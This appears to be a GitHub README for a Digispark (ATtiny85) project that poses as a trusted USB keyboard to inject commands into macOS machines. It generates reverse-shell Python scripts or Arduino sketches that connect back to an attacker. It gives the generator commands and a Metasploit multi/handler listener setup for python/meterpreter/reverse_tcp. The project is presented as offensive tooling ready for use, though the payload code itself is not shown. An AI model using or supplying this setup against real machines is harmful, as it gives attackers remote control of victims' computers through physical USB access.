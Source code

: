 ![Build Status](https://github.com/subsurface/subsurface/workflows/Mac/badge.svg)

## What is digispark?
Digispark is a Attiny85 based microcontroller that can be used as trusted HID-MIDI device. This project addresses its vulnerability, which injects malicious code into the machine. 

## Digispark reverse shell

The script creates either reverse shell python script or arduino sketch for digispark. The script is compatible with metasploit.</br>
This Digispark sketch is intended to run on OS X operating System.


## Features

- Creates a reverse shell python script
- Creates a Arduino sketch for digispark

## Arduino Configuration

To flash the microcontroller, you need to add this link to your boards maneger</br>
Arduino > File > Preferences > Additional Boards Manager URLs:
```
https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json
```

Once the link is added, head over to Tools > Bord > Boards Manager, search for "Digistump AVR Boards" and make sure it is installed.


## Installation

Clone this repository
``` 
git clone https://github.com/https-sam/digispark_reverse_shell.git
```

```
cd scripts
```

`-p and -i tags` are required.
```
python3 payloadGenerator.py -i IP ADDRESS -p PORT
```

`-py True` is optional, which only creates a python reverse shell script.
```
python3 payloadGenerator.py -i IP Address -p PORT -py True
```


## Set up

Metsploit can be used as a listener
``` 
msfconsole
use multi/handler
set payload python/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport PORT
run
````



## License

MIT


- [Digistump](https://github.com/digistump/DigisparkArduinoIntegration/blob/master/libraries/DigisparkKeyboard/DigiKeyboard.h) - Library for digispark
- [Micronucleus](https://github.com/micronucleus/micronucleus) - processor
- [Metasploit](https://github.com/rapid7/metasploit-framework) 



